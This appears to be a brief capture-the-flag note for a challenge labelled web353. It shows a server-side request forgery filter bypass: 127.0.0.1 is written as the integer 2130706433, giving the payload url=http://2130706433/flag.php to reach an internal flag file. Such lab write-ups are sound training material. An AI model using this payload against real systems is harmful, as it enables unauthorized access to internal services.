 # web353
![](vx_images/323613628451584.png)
用int转化127.0.0.1->2130706433
url=http://2130706433/flag.php